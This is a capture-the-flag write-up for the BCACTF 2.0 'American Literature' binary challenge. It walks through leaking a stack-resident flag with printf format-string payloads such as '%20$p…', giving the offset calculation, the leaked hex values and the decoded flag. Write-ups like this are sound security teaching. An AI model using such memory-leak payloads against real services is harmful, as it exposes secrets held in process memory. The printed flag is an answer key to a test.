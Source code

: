 # BCACTF 2.0 – American Literature

* **Category:** Binex
* **Points:** 150
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Writing essays is so much fun! Watch me write all these totally meaningful words about other words... Actually, wait. You shouldn't be reading my essays. Shoo!

## Solution

The challenge page provides us with a [binary](Backup/amer-lit) and the [C code](Backup/amer-lit.c) it was compiled from.

Reading through the code we noticed that this challenge would output whatever we write using printf, opening it up to a string format vulnerability. By constructing a string full of format specifiers we can leak values from the stack, and it just so happens to be that the flag is read into a buffer on the stack. To figure out where this buffer is located I loaded the binary up in [Ghidra](https://ghidra-sre.org/) to inspect the disassembled main function:

![Image](Docs/amer-lit-1.jpg)

The flag is stored in local_78(rbp-0x70), to target specific arguments we can use the format `%2$p` where 2 is the index of the parameter we want to print. However, for our printf vulnerability we have to keep in mind that the first 6 parameters are stored in registers(RDI, RSI, RDX, RCX, R8, and R9), not on the stack. So to get to our flag we need to take 0x70 / 8 = 14 and add another 6 for the registers. This means the flag should start at `%20$p`. Due to our length constraint we can only fit 9 format specifiers in the input.

Connecting to the remote host with `nc bin.bcactf.com 49157` and entering `%20$p%21$p%22$p%23$p%24$p%25$p%26$p%27$p%28$p` gets us the following(split up for clarity)
> 0x747b667463616362
> 
> 0x6e5f796c6c61746f
> 
> 0x6f6c706d655f746f
> 
> 0x6568745f676e6979
> 
> 0x5f666f5f6573755f
> 
> 0x5f636972656e6567
> 
> 0x6f745f7364726f77
> 
> 0x745f68636165725f
> 
> 0x69757165725f6568

Plugging this in to [CyberChef](https://gchq.github.io/CyberChef/) with Swap Endianness with 8 byte word size and From Hex as format results in:
>bcactf{totally_not_employing_the_use_of_generic_words_to_reach_the_requi

It seems like we're still missing some bit, doing the same thing again with `%29$p%30$p%31$p%32$p%33$p%34$p%35$p%36$p%37$p` as input results in:
> 0x64726f775f646572
> 
> 0x6e5f74696d696c5f
> 
> 0x5f746f6e5f65706f
> 
> 0x7ffe007d656d
> 
> 0xb6676a39b64da300
> 
> (nil)
> 
> 0x7fb3bc82d0b3
> 
> 0x310x7ffe3add5258

in the middle of 0x7ffe007d656d is the \0 terminator that marks the end of the string, removing the unnecesary data results in the final block of hex data being

> 0x747b667463616362
> 
> 0x6e5f796c6c61746f
> 
> 0x6f6c706d655f746f
> 
> 0x6568745f676e6979
> 
> 0x5f666f5f6573755f
> 
> 0x5f636972656e6567
> 
> 0x6f745f7364726f77
> 
> 0x745f68636165725f
> 
> 0x69757165725f6568
> 
> 0x64726f775f646572
> 
> 0x6e5f74696d696c5f
> 
> 0x5f746f6e5f65706f
> 
> 0x7d656d

Which when plugged in to [CyberChef](https://gchq.github.io/CyberChef/) results in the full flag:

`bcactf{totally_not_employing_the_use_of_generic_words_to_reach_the_required_word_limit_nope_not_me}`